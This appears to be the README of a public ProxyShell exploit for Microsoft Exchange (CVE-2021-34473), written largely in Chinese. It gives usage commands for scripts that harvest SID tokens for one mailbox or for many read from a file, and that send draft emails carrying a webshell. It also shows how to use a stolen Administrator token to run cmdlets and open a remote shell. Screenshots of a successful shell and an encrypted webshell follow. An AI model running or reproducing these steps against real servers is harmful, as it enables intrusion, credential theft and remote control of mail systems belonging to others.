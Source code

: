 - python send_webshell_mail.py https://mail16.echod.com aaa@echod.com  单个获取


- python send_webshell_mail.py https://mail16.echod.com crack  批量从mail.txt 读取邮件，进行尝试获取SID token


- python send_webshell_mail.py https://mail16.echod.com aaa@echod.com  send  (只发送webshell 草稿邮件)


- python send_webshell_mail.py https://mail16.echod.com crack send 批量发恶意邮件 （不建议这么做）


- python wsman_shell.py https://mail.echod.com Administrator@echod.com [这里替换获取到的token]   这里只进入cmdlet 执行命令


     ###### 发送邮件后可以直接使用 这个命令即可尝试getshell，具体Path可在脚本路径里调
 - python wsman_shell.py https://mail.echod.com Administrator@echod.com [这里替换获取到的token] shell

##### Test Send mail
![](https://github.com/je6k/CVE-2021-34473-Exchange-ProxyShell/blob/main/send_mail.png?raw=true)




##### Test shell  Response eeeee

![](https://github.com/je6k/CVE-2021-34473-Exchange-ProxyShell/blob/main/getshell.png?raw=true)



##### Crypt_webshell

![](https://github.com/je6k/CVE-2021-34473-Exchange-ProxyShell/blob/main/Crypt_shellcontent.png?raw=true)
